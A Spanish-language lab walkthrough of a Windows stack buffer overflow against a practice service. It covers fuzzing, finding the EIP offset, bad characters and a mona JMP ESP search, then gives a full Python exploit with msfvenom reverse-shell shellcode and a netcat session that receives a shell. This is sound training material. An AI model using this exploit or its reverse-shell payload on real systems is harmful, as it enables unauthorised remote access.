







**EIP**: Es el puntero de instrucción, Señala(mantiene la dirección de) el 1er byte de la siguiente instrucción que se ejecutará. 
**ESP**: Es el puntero de pila. Apunta(contiene la dirección) del valor introducido más recientemente en la pila.

## Fuzzing

Primera etapa de un desbordamiento en pila que consiste en enviar datos aleatorios en la entrada del programa de manera automatizada, de esta forma comprobar la seguridad de la entrada en lo que respecta a la validación de datos.

```
#!/usr/bin/python

import socket, sys
from time import sleep

buffer = "A" * 200

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(2)
        s.connect(('192.168.0.102',1337))
        s.recv(1024)

        print '[*] Length: ' + str(len(buffer))
        s.send("OVERFLOW8 " + buffer)
        s.close()
        sleep(1)
        buffer=buffer+'A'* 200

    except Exception as e:
        print '[*] Error: ' + str(e)
        sys.exit(1)
```

```
❯ python fuzzer.py
[*] Length: 200
[*] Length: 400
[*] Length: 600
[*] Length: 800
[*] Length: 1000
[*] Length: 1200
[*] Length: 1400
[*] Length: 1600
[*] Length: 1800
[*] Error: timed out
```



##  Encontrar el EIP

```
> pwn cyclic 2000
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab[...]
```

```
import socket, sys
from time import sleep

buffer = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaacoaacpaacqa[..]"

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```


```
❯ pwn cyclic -l "arwa"
1786
```

## Sobreescribir EIP

```
import socket, sys
from time import sleep

buffer = "A"  * 1786 + "B" * 4 + "C" *100

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[!]' + str(e)
  sys.exit()
```



## Encontrar badchars

Damos click derecho en el registro `esp` y seleccionamos la opción `follo in dump`.



Seleccionamos los caracteres que no se interpretan.



badchars: `\x00\x1d\x2e\xc7\xee`

----

## Buscar el modulo adecuado



Buscando `dll` para un salto a `JMP ESP`



Forma resumida:

```
!mona jmp -r esp -cpb "\x00\x1d\x2e\xc7\xee"
```



----

## Generar shellcode

| argumento | descripción |
|--|--|
| lhost | IP del atacante |
| lport |  puerto de elección del atacante |
| EXITFUNC=thread | agrega estabilidad a nuestro payload |
| -f | tipo de archivo |
| -a | arquitectura de la máquina |
| --platform | tipo de Sistema Operativo |
| -b | badchars |

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -b "\x00\x1d\x2e\xc7\xee" EXITFUNC=thread -f c
```

```
import socket
import sys
from time import sleep

shellcode=("\xdb\xc2\xbe\x9e\xc4\x32\x0e\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x52\x31\x70\x17\x03\x70\x17\x83\x5e\xc0\xd0\xfb\xa2\x21\x96"
"\x04\x5a\xb2\xf7\x8d\xbf\x83\x37\xe9\xb4\xb4\x87\x79\x98\x38"
"\x63\x2f\x08\xca\x01\xf8\x3f\x7b\xaf\xde\x0e\x7c\x9c\x23\x11"
"\xfe\xdf\x77\xf1\x3f\x10\x8a\xf0\x78\x4d\x67\xa0\xd1\x19\xda"
"\x54\x55\x57\xe7\xdf\x25\x79\x6f\x3c\xfd\x78\x5e\x93\x75\x23"
"\x40\x12\x59\x5f\xc9\x0c\xbe\x5a\x83\xa7\x74\x10\x12\x61\x45"
"\xd9\xb9\x4c\x69\x28\xc3\x89\x4e\xd3\xb6\xe3\xac\x6e\xc1\x30"
"\xce\xb4\x44\xa2\x68\x3e\xfe\x0e\x88\x93\x99\xc5\x86\x58\xed"
"\x81\x8a\x5f\x22\xba\xb7\xd4\xc5\x6c\x3e\xae\xe1\xa8\x1a\x74"
"\x8b\xe9\xc6\xdb\xb4\xe9\xa8\x84\x10\x62\x44\xd0\x28\x29\x01"
"\x15\x01\xd1\xd1\x31\x12\xa2\xe3\x9e\x88\x2c\x48\x56\x17\xab"
"\xaf\x4d\xef\x23\x4e\x6e\x10\x6a\x95\x3a\x40\x04\x3c\x43\x0b"
"\xd4\xc1\x96\x9c\x84\x6d\x49\x5d\x74\xce\x39\x35\x9e\xc1\x66"
"\x25\xa1\x0b\x0f\xcc\x58\xdc\xf0\xb9\x62\x77\x99\xbb\x62\x96"
"\x05\x35\x84\xf2\xa5\x13\x1f\x6b\x5f\x3e\xeb\x0a\xa0\x94\x96"
"\x0d\x2a\x1b\x67\xc3\xdb\x56\x7b\xb4\x2b\x2d\x21\x13\x33\x9b"
"\x4d\xff\xa6\x40\x8d\x76\xdb\xde\xda\xdf\x2d\x17\x8e\xcd\x14"
"\x81\xac\x0f\xc0\xea\x74\xd4\x31\xf4\x75\x99\x0e\xd2\x65\x67"
"\x8e\x5e\xd1\x37\xd9\x08\x8f\xf1\xb3\xfa\x79\xa8\x68\x55\xed"
"\x2d\x43\x66\x6b\x32\x8e\x10\x93\x83\x67\x65\xac\x2c\xe0\x61"
"\xd5\x50\x90\x8e\x0c\xd1\xb0\x6c\x84\x2c\x59\x29\x4d\x8d\x04"
"\xca\xb8\xd2\x30\x49\x48\xab\xc6\x51\x39\xae\x83\xd5\xd2\xc2"
"\x9c\xb3\xd4\x71\x9c\x91")

buffer = 'A'*1766 + "\x90"*20 + '\xaf\x11\x50\x62' + "\x90"*20 + shellcode

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.connect(('192.168.0.102',1337))
  s.recv(1024)

  print '[*] Sending buffer'
  s.send("OVERFLOW8 " + buffer)
  s.close()

except Exception as e:
  print '[*] Error: ' + str(e)
  sys.exit()
```

----

## Ganar acceso al sistema

```
❯ python exploit.py
[*] Sending buffer

─────────────────────────────────────────────────────────────────

❯ nano exploit.py
❯ cat exploit.py | xclip -sel clip
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49413
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\win7bits\Desktop\vulnerable-apps\oscp>whoami
whoami
win7\win7bits
```
